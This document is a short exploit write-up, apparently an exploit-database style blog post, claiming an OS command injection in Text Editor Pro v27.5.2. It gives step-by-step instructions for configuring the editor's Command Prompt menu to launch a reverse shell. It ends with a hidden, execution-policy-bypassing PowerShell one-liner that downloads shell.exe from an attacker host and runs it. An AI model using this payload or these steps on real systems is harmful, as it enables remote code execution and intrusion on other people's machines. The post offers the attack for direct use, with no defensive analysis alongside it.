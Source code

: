 ```yaml
---
layout: post
title: Text Editor Pro v27.5.2 - OS Command Injection
date: 2023-09-17
category: exploit
---
```


# Exploit Title: Text Editor Pro v27.5.2 - OS Command Injection
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 17.09.2023
# Vendor Homepage: https://www.texteditor.pro
# Software Link: https://www.texteditor.pro/downloads/TextEditorPro32.exe
# Tested Version: v27.5.2 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open Text Editor Pro.
2. Click on the arrow to the right of **Command Prompt** in the top menu.
3. Select **Properties**, then click on **Insert**.
4. In the opened box, enter your reverse shell command and click **OK**.
5. Save the configuration by clicking **OK** again.
6. Click on the arrow to the right of **Command Prompt** again, and select your configured reverse shell command.
7. Your reverse shell should now be active, connecting to your listener.

### Example of Reverse Shell Command

To set up a reverse shell command, use the following example:

```batch
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri http://attacker_ip:port -OutFile %TEMP%\shell.exe; Start-Process %TEMP%\shell.exe"
